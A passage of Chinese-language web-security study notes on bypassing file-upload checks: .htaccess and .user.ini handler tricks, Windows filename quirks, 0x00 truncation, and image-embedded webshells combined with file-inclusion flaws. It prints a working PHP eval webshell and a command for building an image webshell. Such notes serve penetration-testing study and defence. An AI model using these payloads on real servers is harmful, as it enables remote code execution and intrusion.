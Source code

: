         SetHandler application/x-httpd-php 
        
        </FilesMatch>
        ```
        该文件的意思是，只要遇到文件名中包含有"liudehua"字符串的，统一按照php文件来执行。  
        或者`AddType application/x-httpd-php `把全部文件当成php

    - **上传.user.ini文件**和.htaccess文件功能差不多
        - auto_append_file、auto_prepend_file两个配置自动包含文件，区别好像就是文件前后包含
        - 比如：auto_prepend_file=shell.gif
        - 然后会自动生成一个index.php在对应目录，index.php文件自动包含了shell.gif文件
        - 然后访问这个index.php文件
    - win系统解析漏洞绕过
        - 这些会经过字符串检测，在最后保存到服务器文件中会被windows系统自动去掉不符合规则符号，并保留前面的文件名。
        - test.asp.
        - test.asp空格
        - shell.php::$DATA 
        - shell.php::$DATA...

- **解析漏洞绕过**：直接上传一个注入过恶意代码的非黑名单文件即可，再利用解析漏洞利用。

###  **白名单检测**
- **0x00****截断绕过**：
    - 这里的0x00是指数据的二进制是0x00，也就是一个字节二进制全是0。同时0x00是字符串的结束标识符，攻击者可以利用手动添加字符串标识符的方式来将后面的内容进行截断。
    - 参考资料：[关于上传中的00截断分析](http://www.admintony.com/%E5%85%B3%E4%BA%8E%E4%B8%8A%E4%BC%A0%E4%B8%AD%E7%9A%8400%E6%88%AA%E6%96%AD%E5%88%86%E6%9E%90.h)
    - 0x00截断的使用条件：**PHP<5.3.29，且GPC关闭**
    - 0x00截断和文件名没有关系（是因为字符串正则匹配的时候，匹配到0x00就结束了，也就不会匹配后续的.jpg了），而是添加在上传路径上的（所以需要一个参数是路径参数，比较鸡肋，上传路径不会经过匹配）
    - 有些函数不会被0x00截断，具体哪些可以看看ctf-》php代码审计的。
    - %00和%00(urldecode)
        - 在网上常见用Burp将数据包中的%00进行urldecode的操作，那为什么要进行这一个操作？网上也常见直接放入%00就可以截断成功的案例，为什么呢？
        - 首先解释为什么要进行urldecode操作呢？其原因在于上传的表单中有一个enctype的属性，并且需要enctype="multipart/form-data" (不对表单中数据进行编码)，path大多数都是存放在表单中的，因此需要在数据包中进行urldecode操作使%00变成字符串结束符号（是因为根据urldecode的规则，%00会被解码成二进制的0x00，我们可以在burp的http数据的二进制显示页面看到(当然burp显示的是16进制的二进制表示)），我们将http的二进制改成00也是同理。
        - 那么为什么网上也有直接添加%00而不进行urldecode操作呢？因为path也可以存放在URL或者Cookie中，而在提交数据的时候，浏览器会对数据做一次urldecode的操作，而到服务端，会对数据进行一次urldecode的操作，因此如果path在非enctype=multipart/form-data的表单中或URL or Cookie中的时候，就可以直接写%00不需要进行URLdecode操作，让服务端对%00进行URL解码即可。
- 配合文件包含漏洞
- 配合解析漏洞

### **服务端文件内容检测：**
- 同时还要看检查不检查后缀名，不检查，直接一个图片马，后缀改成.php。
- 为什么图片马起作用，因为php的执行代码是<?php开头和?>结尾的，其他范围的字符串都不会搭理，所以只要php执行该图片马就能奏效。
- **图片马**
    - **图片木马制作**  
        - 命令：copy /b 1.jpg + 2.php 2.jpg   cmd命令 poweshell出错了  
        /a 指定以 ASCII 格式复制、合并文件。用于 txt 等文档类文件；  
        /b 指定以二进制格式复制、合并文件; 用于图像类/声音类文件；
        - 直接burpsuite抓上传一个普通图片的数据包，然后再在数据包末尾加上`<?php @eval($_POST['lzx']);?>`。
    - 主要是看，图片马能成功上传的后缀是什么？如果不是.php,图片马是不能解析的，因为会被当作图片去渲染，php不会去执行。
    这时候联动.htacess或.user.ini或文件包含漏洞，把该图片马当作php代码执行。
    - **配合文件包含漏洞**  
        - 需要文件包含漏洞的文件路径可控。
        - 绕过方式：（这里拿php为例，此漏洞主要存在于PHP中）
            - 先上传一个内容为木马的txt文件或者一个图片马，因为后缀名的关系没有检验内容；
            - 存在文件包含漏洞，并且路径可控，包含我们的txt或者图片马文件。这个php文件就会去引用txt文件或者图片马的内容，从而绕过校验。
- **文件加载检测**：
    - 这个是最变态的检测，检测上传的文件是一个图片。一般是调用API或者函数去进行文件加载测试，常见的是图像渲染测试，再变态一点的甚至是进行二次渲染。(一般很难遇上)
    - **绕过方法**：
        - 针对渲染加载测试：代码注入绕过
        - 针对二次渲染测试：用户提交的图片会被生成新图片，它相当于是把原本属于图像数据的部分抓了出来，再用自己的API或函数进行重新渲染在这个过程中非图像数据的部分直接就隔离开了。
        - 不过二次渲染会保留一些文件内容不会改变，所以在制作图片马之前，我们先观察二次渲染前后图片不会改变的地方（利用软件比较两张图片的二进制），将其代码写入其中即可绕过二次渲染。
- **条件竞争**